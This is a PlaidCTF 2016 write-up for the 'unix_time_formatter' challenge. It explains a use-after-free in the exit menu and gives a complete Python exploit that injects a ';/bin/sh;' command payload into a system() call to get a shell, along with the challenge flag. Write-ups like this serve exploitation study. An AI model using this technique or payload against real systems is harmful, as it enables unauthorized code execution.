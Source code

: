 ```yaml
---
layout: post
title: pctf 2016 unix_time_formatter writeup
category: writeup
---
```


this is simple formatter of unix time, and there are vulnerability in exit function.

```c
signed __int64 menu_exit()
{
  signed __int64 result; // rax@1
  __int64 v1; // rcx@3
  char s; // [sp+8h] [bp-20h]@1
  __int64 v3; // [sp+18h] [bp-10h]@1

  v3 = *MK_FP(__FS__, 40LL);
  wrapper_free((void *)qword_602118);
  wrapper_free(value);
  __printf_chk(1LL, "Are you sure you want to exit (y/N)? ");
  fflush(stdout);
  fgets(&s, 16, stdin);
  result = 0LL;
  if ( (s & 0xDF) == 'Y' )
  {
    puts("OK, exiting.");
    result = 1LL;
  }
  v1 = *MK_FP(__FS__, 40LL) ^ v3;
  return result;
}
```

If I goto exit, and choose "N", then I can reuse free chunks.
so other thing is find values which is given by malloc.

there is a function which set time zone, and it uses strdup.
it uses malloc inside. [man strdup](http://linux.die.net/man/3/strdup)

and there are print_time function, it calls system with filtered argument "value".
but we can bypass with use-after-free at previous code.

so exploit step is :

 1. write any value to "qword_602118" (this is time format value)
 2. free at exit
 3. overwrite string at set_timezone
 4. call system at print_time


This is my exploit code.

```python
import pwnbox


# PCTF{use_after_free_isnt_so_bad}

local = False

if local:
    p = pwnbox.pipe.ProcessPipe('gdb -q unix_time_formatter_9a0c42cadcb931cce0f9b7a1b4037c6b')
else:
    p = pwnbox.pipe.SocketPipe('unix.pwning.xxx',9999)

payload = '\';/bin/sh;\''

def lobby():
    p.read_until('5) Exit.\n')
    p.read_until('>')


def set_timeFormat(s):
    p.write('1\n')
    p.read_until('mat:')
    p.write(s+'\n')
    lobby()

def set_time(d):
    p.write('2\n')
    p.read_until('time: ')
    p.write('%d\n' % d)
    lobby()

def exit(s):
    p.write('5\n')
    p.read_until(')?')
    p.write(s+'\n')
    lobby()

def set_timeZone(s):
    p.write('3\n')
    p.read_until('zone:')
    p.write(s+'\n')
    lobby()

if local:
    p.read_until('(gdb)')
    p.write('r\n')


lobby()
set_timeFormat('a'*len(payload))
set_time(1)
exit('N')
set_timeZone(payload)
p.write('4\n')
p.interact()
```
 



